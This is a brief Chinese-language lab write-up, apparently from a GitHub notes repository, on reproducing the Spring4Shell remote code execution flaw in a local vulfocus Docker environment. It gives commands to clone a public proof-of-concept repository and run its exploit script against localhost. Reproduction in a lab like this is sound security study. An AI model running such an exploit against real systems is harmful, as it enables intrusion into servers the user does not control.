


# 0x01-环境搭建
借助白帽汇的开源项目vulfocus，地址：https://github.com/fofapro/vulfocus

docker pull及其他问题可参考：https://github.com/ybdt/front-hub/tree/main/18-Docker

搭建好后如下图  
  

# 0x02-漏洞复现
使用项目：https://github.com/BobTheShoplifter/Spring4Shell-POC
```
git clone https://github.com/BobTheShoplifter/Spring4Shell-POC.git

python3.exe .\poc.py --url http://127.0.0.1:8080
```
执行攻击代码，如下图  


浏览器访问，如下图  
  